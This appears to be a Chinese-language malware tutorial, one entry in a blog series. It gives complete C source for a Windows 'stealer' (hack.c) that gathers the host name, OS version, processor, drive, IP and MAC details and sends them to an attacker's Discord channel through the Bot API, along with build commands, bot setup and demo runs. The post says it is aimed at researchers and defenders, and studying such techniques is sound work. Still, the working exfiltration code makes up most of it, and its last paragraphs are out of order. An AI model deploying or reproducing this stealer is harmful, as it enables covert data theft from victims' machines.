\newpage
\subsection{恶意软件开发技巧：通过合法的 Discord Bot API 窃取数据（简单的 C 示例）}

在之前的例子里，我们创建了一个简单的概念验证：通过合法的 C2 连接——Telegram Bot API、VirusTotal API——从受害者的 Windows 机器上「窃取」最简单的信息。

{width="80%"}

那么下一个合法应用呢：Discord 以及它的 Bot API 特性？

### 实战示例

你们中可能有很多人以为我只是在照抄同样的代码，请注意这只是为了理解其中的概念。

首先，创建一个 Discord 应用：

{width="80%"}

在我的例子里叫 `meow-test`。

如你所见，discord 生成了 app ID 和 token，我们后面会用到 `APPLICATION_ID`。

{width="80%"}

在你的应用中，创建一个拥有全部权限的 bot 用户：

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

在你的 Discord 服务器中，导航到你希望 bot 发送消息的频道。

```cpp
#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
  fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
  return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
  fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hSession);
  return 1;
  }

  hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v10/channels/" 
  DISCORD_CHANNEL_ID "/messages", NULL, WINHTTP_NO_REFERER, 
  WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
  fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // set headers
  if (!WinHttpAddRequestHeaders(hRequest, L"Authorization: Bot " 
  DISCORD_BOT_TOKEN "\r\nContent-Type: application/json\r\n", -1, 
  WINHTTP_ADDREQ_FLAG_ADD)) {
  fprintf(stderr, "WinHttpAddRequestHeaders. error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // construct JSON payload
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"content\": \"%s\"}", message);

  // send the request
  if (!WinHttpSendRequest(hRequest, NULL, -1, (LPVOID)json_body, 
  strlen(json_body), strlen(json_body), 0)) {
  fprintf(stderr, "WinHttpSendRequest. error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // receive response
  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
  fprintf(stderr, "WinHttpReceiveResponse. error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, 
  WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, 
  WINHTTP_NO_HEADER_INDEX)) {
  if (code == 200) {
  printf("message sent successfully to discord.\n");
  } else {
  printf("failed to send message to discord. HTTP status code: %d\n", code);
  }
  } else {
  DWORD error = GetLastError();
  LPSTR buffer = NULL;
  FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
  FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
  NULL, error, 0, (LPSTR)&buffer, 0, NULL);
  printf("unknown error: %s\n", buffer);
  LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  return 0;

```

右键点击频道名称，选择 Copy ID 或 Copy Link（我的情况是浏览器版 discord），这样你就得到了频道 ID：

{width="80%"}

完整源代码看起来是这样的（`hack.c`）：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
  fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
  return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
  fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hSession);
  return 1;
  }

  hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v10/channels/" 
  DISCORD_CHANNEL_ID "/messages", NULL, WINHTTP_NO_REFERER, 
  WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
  fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // set headers
  if (!WinHttpAddRequestHeaders(hRequest, L"Authorization: Bot " 
  DISCORD_BOT_TOKEN "\r\nContent-Type: application/json\r\n", -1, 
  WINHTTP_ADDREQ_FLAG_ADD)) {
  fprintf(stderr, "WinHttpAddRequestHeaders. error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // construct JSON payload
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"content\": \"%s\"}", message);

  // send the request
  if (!WinHttpSendRequest(hRequest, NULL, -1, (LPVOID)json_body, 
  strlen(json_body), strlen(json_body), 0)) {
  fprintf(stderr, "WinHttpSendRequest. error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  // receive response
  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
  fprintf(stderr, "WinHttpReceiveResponse. error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | 
  WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, 
  &code, &codeS, WINHTTP_NO_HEADER_INDEX)) {
  if (code == 200) {
  printf("message sent successfully to discord.\n");
  } else {
  printf("failed to send message to discord. HTTP status code: %d\n", code);
  }
  } else {
  DWORD error = GetLastError();
  LPSTR buffer = NULL;
  FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
  FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
  NULL, error, 0, (LPSTR)&buffer, 0, NULL);
  printf("unknown error: %s\n", buffer);
  LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  return 0;

int main(int argc, char* argv[]) {
  // test message
  const char* message = "meow-meow";
  sendToDiscord(message);

  char systemInfo[4096];

  // get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);

  // get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // get logical drive information
  DWORD drives = GetLogicalDrives();

  // get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
  printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
  return 1;
  }

  snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s, "
  "OS Version: %d.%d.%d, "
  "Processor Architecture: %d, "
  "Number of Processors: %d, "
  "Logical Drives: %X, ",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

  // add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; 
  adapter = adapter->Next) {
  snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s, "
  "IP Address: %s, "
  "Subnet Mask: %s, "
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  // send system info to discord
  sendToDiscord(systemInfo);
  return 0;

```

### 演示

我们来看看一切的实际效果。

编译我们的「窃取程序」`hack.c`：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

{width="80%"}

在测试用受害机器上运行之前，我们需要授权我们的 bot 向该频道发送消息：

```yaml
https://discord.com/api/oauth2/authorize?client_id=123456789012345678&permissions=0&scope=bot
```

把你的 client id 替换成你自己的：

{width="80%"}

{width="80%"}

然后在我的 Windows 11 虚拟机上运行它：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到消息成功发布到了我们的频道。

在 Windows 10 x64 虚拟机上运行，并用 wireshark 抓包：

```powershell
.\hack.exe
```

{width="80%"}

通过 Wireshark 监控流量，我们得到了 IP 地址 104.26.11.240：

```bash
whois 104.26.11.240
```

{width="80%"}

据我所知，Discord 使用 Cloudflare，所以我猜这就是我们的 Discord API 的 IP 地址。

我希望这篇带有实战示例的文章对恶意软件研究员、红队有用，也能让蓝队意识到这项有趣的技术。

[Using Telegram API example](https://cocomelonc.github.io/malware/2024/06/16/malware-trick-40.html)  
[Using VirusTotal API example](https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html)  
[Discord API Reference](https://discord.com/developers/docs/reference)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-28-malware-trick-42)

如你所见，我们已经获得了这个 bot 的 token。

那么，根据文档，我们需要如下的逻辑来发送消息：

<https://discord.com/api/oauth2/authorize?client_id=123456789012345678&permissions=0&scope=bot>
